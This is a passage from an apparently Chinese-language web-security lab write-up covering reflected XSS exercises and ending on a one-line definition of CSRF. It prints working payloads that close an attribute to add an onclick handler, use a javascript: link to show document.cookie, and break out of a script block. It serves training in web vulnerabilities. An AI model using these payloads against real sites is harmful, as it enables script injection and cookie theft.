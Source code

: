 payload:

```
' onclick='alert(1)'  #第一个单引号构造闭合；其后两个单引号确保参数不被过滤
```

![](https://i.loli.net/2021/02/13/lOBqcQizpEeoL32.png)

![](https://i.loli.net/2021/02/13/px138UhcSXsrZFn.png)

这里也可以用

```
' onclick='alert(1)
```

输入' onclick='alert(1)，检查如下：

![](https://i.loli.net/2021/02/13/B3ol2DxtfuWyCOJ.png)

则可直接' onclick='alert(1)即可构造闭合

![](https://i.loli.net/2021/02/13/GHZ3l2Mh6cdVeY5.png)



### xss之href输出

当输出在a标签里的href属性时，可以用js协议来执行js代码

```
javascript:alert(document.cookie)
```

![](https://i.loli.net/2021/02/13/agRLiSwItMkbPpc.png)

### xss之js输出

先尝试`javascript:alert(document.cookie)`

![](https://i.loli.net/2021/02/13/6MujQIK5EToaROw.png)

发现我们的输入被插入到了`<script>`和`</script>`之间![](https://i.loli.net/2021/02/13/1uqfpyblSezWXaM.png)

可以根据此构造闭合：

```
</script><script>javascript:alert(document.cookie)</script>
```

![](https://i.loli.net/2021/02/13/SWBmEryhnje5VMt.png)



## CSRF

利用目标用户的合法身份，以目标用户的名义执行某些非法操作
